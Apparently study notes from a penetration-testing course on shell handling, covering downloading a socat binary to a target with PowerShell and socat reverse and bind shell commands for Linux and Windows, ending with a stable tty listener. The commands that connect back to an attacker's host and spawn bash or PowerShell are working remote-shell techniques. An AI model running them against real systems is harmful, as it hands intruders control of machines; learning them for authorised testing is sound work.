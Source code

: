 To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing our socat binary, then, on the target machine, using the netcat shell to download the file.

In a Windows CLI environment the same can be done with Powershell, using either `Invoke-WebRequest` or a webrequest system class, depending on the version of Powershell installed (`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`).

---

With any of the above techniques, it's useful to be able to change our terminal tty size. This is something that our terminal will do automatically when using a regular shell. However, it must be done manually in a reverse or bind shell if we want to use something like a text editor which overwrites everything on the screen.

## Socat

Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. All socat does is provide a link between two points much like the portal gun from the Portal games!

### Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat: `socat TCP-L:<port> -`

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

On Windows we would use this command to connect back: `socat TCP:<local-ip>:<port> EXEC:powershell.exe,pipes`.

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target: `socat TCP:<local-ip>:<port> EXEC:"bash -li"`.

### Bind Shells

On a Linux target we would use the following command: `socat TCP-L:<port> EXEC:"bash -li"`

On a Windows target we would use this command for our listener: `socat TCP-L:<port> EXEC:powershell.exe,pipes`

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener: `socat TCP:<target-ip>:<port> -`

---

One of the most powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. Here is the new listener syntax: ``socat TCP-L:<port> FILE:`tty`,raw,echo=0``
